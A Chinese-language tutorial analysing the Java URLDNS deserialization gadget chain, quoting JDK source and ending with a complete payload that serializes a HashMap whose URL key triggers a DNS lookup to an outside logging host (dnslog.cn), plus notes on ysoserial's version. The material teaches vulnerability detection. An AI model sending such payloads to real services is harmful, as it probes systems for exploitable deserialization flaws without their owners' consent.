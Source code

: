 ##  URLDNS POP链分析

## 前言

通过HashMap类的反序列化，达到触发DNS查询

直接在本地可以验证，不需要搭建环境

##  分析

###  pop链子

```java
java.util.HashMap.readObject();
-> java.util.HashMap.putVal();
-> java.util.HashMap.hash();
-> java.net.URL.hashCode();
-> java.net.URLStreamHandler.hashCode();
-> java.net.URLStreamHandler.getHostAddress();
```

###  反序列化流程分析

因为在反序列化的时候，我们调用的方法一般是`readObject`，所以这个反序列化链子的入口点也是`hashMap`的`readObject`方法。

先找到`readObject`方法

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

最重要的就是后面的for循环，读取键值，然后传给`putVal`函数，同时`key`进行了`hash`方法

跟进`hash方法`

```java
 static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

判断key是否为空，跟进`hashCode`方法：

是一个native方法，native没有函数体，是一个java用来调用非java代码的接口

![image-20220720142251472](img/image-20220720142251472.png)

这个方法会根据传入的参数调用，我们传入的是一个URL对象，因此调用的是`java.net.URL`类的方法。**然后要使得hashCode==-1，进入`handler.hashCode(this)`**

![image-20220720142538643](img/image-20220720142538643.png)

跟进hashCode函数：

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

最重要就是`getHostAddress`方法，这个点就触发了`DNS查询`

###  反序列化总结条件

1. 需要传入一个URL对象
2. URL实例对象里的`hashCode`属性需要为`-1`

###  序列化操作：

首先触发点是`hashMap`的`readObject`方法，所以需要序列化hashMap类

```java
//先创建一个hashMap实例对象，将url对象和字符串放进去
HashMap<URL, String> hashMap = new HashMap<URL, String>();
//创建URL对象
URL url = new URL("http://kx1o8n.dnslog.cn");
//我们需要改变URL对象中hashcode值，而且是private，我们只有通过反射来改变对象中private的值
Field f = URL.class.getDeclaredField("hashCode");
f.setAccessible(true);
// 这步是防止写入时触发dns查询
f.set(url, 1);
hashMap.put(url, "foo");

f.set(url, -1);
```

在hashMap类中，put方法（将键值对放入hashMap对象中），要调用`putVal`方法

![image-20220720143936135](img/image-20220720143936135.png)



这儿会触发DNS查询，所以先设置URL对象中`hashCode`值为1，然后触发，然后再修改回来就可以了

###  整体的payload

```java
public static void main(String[] args) throws  Exception{
    HashMap<URL, String> hashMap = new HashMap<URL, String>();
    URL url = new URL("http://kx1o8n.dnslog.cn");
    Field f = URL.class.getDeclaredField("hashCode");
    f.setAccessible(true);
    f.set(url, 1);
    hashMap.put(url, "z3yond");

    f.set(url, -1);
    File file = File.createTempFile("urldns",".out");
    //将java对象写入到字节码文件，实现序列化
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
    //写入hashMap对象实例，实现序列化
    oos.writeObject(hashMap);
    //反序列化
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(file));
    //触发DNS查询
    ois.readObject();
    file.deleteOnExit();
}
```

![image-20220720144439186](img/image-20220720144439186.png)

###  ysoserial URLDNS payload分析

```java
URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap();
URL u = new URL(null, url, handler); 
ht.put(u, url); 
Reflections.setFieldValue(u, "hashCode", -1); 
```

SilentURLStreamHandler重写了getHostAddress(URL u)，屏蔽了返回值，因此在生成payload的时候、也就是序列化的时候，不会触发dns查询。